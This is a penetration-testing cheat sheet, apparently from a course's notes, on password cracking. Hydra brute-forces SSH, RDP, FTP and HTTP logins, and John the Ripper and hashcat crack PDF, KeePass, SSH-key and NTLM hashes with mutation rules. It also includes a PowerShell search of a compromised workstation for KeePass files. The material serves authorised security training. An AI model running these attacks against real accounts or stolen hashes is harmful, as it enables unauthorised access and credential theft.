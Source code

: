 # Password Cracking

### Hydra

#### Simple SSH & RDP Examples

```bash
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

#### Cracking PDF

```bash
pdf2john Infrustructure.pdf > pdf.hash
john -wordlist=/usr/share/wordlists/rockyou.txt pdf.hash
```

#### Hydra FTP Example (with known usernames)

```bash
hydra -I -V -f -L users.txt -u -P /opt/SecLists/Passwords/xato-net-10-million-passwords.txt 192.168.179.46 ftp
```

#### HTTP Examples

As before, we'll specify -l for the user, -P for the wordlist, the target IP without any protocol, and a new http-post-form argument, which accepts three colon-delimited fields.

The first field indicates the location of the login form. In this demonstration, the login form is located on the index.php web page. The second field specifies the request body used for providing a username and password to the login form, which we retrieved with Burp. Finally we must provide the failed login identifier, also known as a condition string.

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

When you run into Basic Authentication, use the following script as a reference:

```bash
hydra -I -l admin -P /usr/share/wordlists/rockyou.txt -t 1 "http-get://192.168.249.201/:A=BASIC:F=401"
```

---

You can think of John the Ripper as more of a CPU intensive password cracking tool that supports GPUs, while HashCat is more of a GPU-centered cracking tool, with support for CPUs.

For most algorithms, a GPU is much faster than a CPU since modern GPUs contain thousands of cores, each of which can share part of the workload. However, some slow hashing algorithms (like bcrypt) work better on CPUs.

#### Calculating Cracking Time

The cracking time can be calculated by dividing the keyspace with the hash rate.

The keyspace consists of the character set to the power of the amount of characters or length of the original information (password). For example, if we use the lower-case Latin alphabet (26 characters), upper case alphabet (26 characters), and the numbers from 0 to 9 (10 characters), we have a character set of 62 possible variations for every character. If we are faced with a five-character password, we are facing 62 to the power of five possible passwords containing these five characters.

```bash
python3 -c "print(62**5)"
```

We'll use hashcat with -b to initiate benchmark mode. First, we'll benchmark a CPU by running it in a Kali VM without any GPUs attached. Following along on a local Kali system, the results may differ.

```bash
hashcat -b
```

For now, we are only interested in MD5, SHA1, and SHA-256. The values of the hash rates are in MH/s in which 1 MH/s equals 1,000,000 hashes per second.

Example:
```bash
Algorithm 	GPU 	CPU
MD5 	68,185.1 MH/s 	450.8 MH/s
SHA1 	21,528.2 MH/s 	298.3 MH/s
SHA256 	9,276.3 MH/s 	134.2 MH/s
```

```bash
kali@kali:~$ python3 -c "print(916132832 / 134200000)"
6.826623189269746

kali@kali:~$ python3 -c "print(916132832 / 9276300000)"
0.09876058687192092
```

---

### Mutating Passwords

Removing number sequences from a password list:

```bash
# More specifically this removes passwords that start with the letter 1, and does the modification in place, not leaving empty newlines

sed -i '/^1/d' demo.txt
```

If you want to view how the demo rules work:

```bash
kali@kali:~/passwordattacks$ hashcat -r demo.rule --stdout demo.txt
password1
iloveyou1
princess1
rockyou1
abc1231
```

This sets the crack mode to MD5, with the hash being in crackme.txt, and sets the demo rules on the rockyou.txt wordlsit, with the argument '--force' to use a CPU for the cracking.

```bash
kali@kali:~/passwordattacks$ cat crackme.txt     
f621b6c9eab51a3e2f4e167fee4c6860

kali@kali:~/passwordattacks$ cat demo3.rule   
$1 c $!
$2 c $!
$1 $2 $3 c $!

kali@kali:~/passwordattacks$ hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force
``` 

### Password Cracking Process

We can describe the process of cracking a hash with the following steps:

    1. Extract hashes
    2. Format hashes
    3. Calculate the cracking time
    4. Prepare wordlist
    5. Attack the hash

You can identify the hash type with *hash-identifier* or *hashid*, which are installed on Kali.

We must take special care in copying and pasting our hashes. An extra space or a newline could render our efforts worthless. In addition, we should be sure of the hash type we are using. For example, hashid can't automatically determine if b08ff247dc7c5658ff64c53e8b0db462 is MD2, MD4, or MD5. An incorrect choice will obviously waste time. We can avoid this situation by double-checking the results with other tools and doing additional research.

**If you manage to get access to a client's workstation, check if they are running a password manager. If they are, try to crack the master password.**

#### Recursively Search a User's Workstation for KeePass Database

```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

The JtR suite includes various transformation scripts like ssh2john and keepass2john, which can format a broad range of different file formats, and they are installed by default on our Kali machine. We can also use these scripts to format hashes for Hashcat.

Let's use the keepass2john script to format the database file and save the output to keepass.hash.

```bash
kali@kali:~/passwordattacks$ ls -la Database.kdbx
-rwxr--r-- 1 kali kali 1982 May 30 06:36 Database.kdbx


kali@kali:~/passwordattacks$ keepass2john Database.kdbx > keepass.hash   

kali@kali:~/passwordattacks$ cat keepass.hash   
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
```

In our case, the JtR script prepended the filename Database to the hash. The script does this to act as the username for the target hash. This is helpful when cracking database hashes, since we want the output to contain the corresponding username and not only the password. Since KeePass uses a master password without any kind of username, we need to remove the "Database:" string with a text editor.


We're using the rule '/usr/share/hashcat/rules/rockyou-30000.rule' because it is very effective with the rockyou.txt wordlist, as it was made for it.

```bash
kali@kali:~/passwordattacks$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat (v6.2.5) starting
...
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1:qwertyuiop123!
...
```

#### Using Rules with JTR

To be able to use the previously created rules in JtR, we need to add a name for the rules and append them to the /etc/john/john.conf configuration file. For this demonstration, we'll name the rule sshRules with a "List.Rules" rule naming syntax (as shown in Listing 34). We'll use sudo and sh -c to append the contents of our rule file into /etc/john/john.conf.

```bash
kali@kali:~/passwordattacks$ cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

kali@kali:~/passwordattacks$ sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```

Now that we've successfully added our sshRules to the JtR configuration file, we can use john to crack the passphrase in the final step of our methodology. We'll define our wordlist with --wordlist=ssh.passwords, select the previously created rule with --rules=sshRules, and provide the hash of the private key as the final argument, ssh.hash.

```bash
kali@kali:~/passwordattacks$ john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

#### NTLM Hashes

```bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```